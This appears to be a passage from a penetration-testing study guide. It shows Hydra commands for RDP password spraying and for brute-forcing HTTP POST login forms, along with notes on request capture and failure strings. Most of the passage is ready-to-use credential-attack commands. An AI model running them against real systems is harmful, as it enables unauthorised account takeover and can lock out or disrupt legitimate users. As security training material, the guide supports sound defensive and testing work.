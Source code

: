 **Key Parameters**
- `-l`: Single username
- `-L`: Username list file
- `-P`: Password list file
- `-s`: Custom port
- `-t`: Number of parallel tasks

### 1.2 RDP Password Spraying

Password spraying uses one password against multiple usernames, effective when passwords are obtained from breaches or leaks.

**Prepare Username List**
```bash
# Add usernames to existing list
echo -e "daniel\njustin" | sudo tee -a /usr/share/wordlists/dirb/others/names.txt
```

**Execute Password Spray**
```bash
# Single password against username list
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "password123" rdp://target_ip

# Custom username list
hydra -L custom_users.txt -p "SuperS3cure1337#" rdp://target_ip
```

**Considerations**
- Account lockout policies may trigger after failed attempts
- Dictionary attacks generate significant logs and network traffic
- Limit attack scope to avoid production system disruption

### 1.3 HTTP POST Login Forms

Web application login forms require additional reconnaissance to capture request format and failure indicators.

**Information Gathering**
1. Intercept login request with Burp Suite
2. Identify POST request body format
3. Capture failed login response message

**Example Request Analysis**
```
POST /index.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

fm_usr=user&fm_pwd=password
```

**Failed Login Indicator**
```
"Login failed. Invalid username or password"
```

**Hydra HTTP POST Attack**
```bash
# Basic HTTP POST form attack
hydra -l user -P /usr/share/wordlists/rockyou.txt target_ip http-post-form "/index.php:fm_usr=^USER^&fm_pwd=^PASS^:Login failed. Invalid"

# With custom parameters
hydra -l admin -P passwords.txt target_ip http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
```
